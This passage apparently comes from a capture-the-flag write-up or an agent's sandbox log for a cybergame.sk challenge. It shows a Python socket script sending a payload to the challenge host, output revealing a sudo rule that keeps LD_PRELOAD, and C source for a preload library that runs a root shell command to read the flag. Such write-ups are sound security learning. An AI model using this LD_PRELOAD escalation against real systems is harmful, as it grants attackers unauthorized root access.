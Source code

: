 ```bash
            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

            print("[*] Response received:")
            decoded_response = response.decode(errors='ignore')
            print(decoded_response)

    except socket.timeout:
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

Checking sudo permissions to determine if it can be used for privilege escalation.

```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>> Matching Defaults entries for calc on fc07b8081fbf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty, env_keep+=LD_PRELOAD
User calc may run the following commands on fc07b8081fbf:
    (ALL) NOPASSWD: /bin/netstat
0
```

Exploiting sudo with LD_PRELOAD to access root user secrets.
```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Constructor function that runs when the library is loaded
void __attribute__((constructor)) init() {
    // Clear environment variables that might interfere
    unsetenv("LD_PRELOAD");
    // Execute the command to read the root flag
    // Assuming the flag is in /root/flag.txt based on the previous challenge structure
    system("/bin/cat /root/flag.txt");
}
```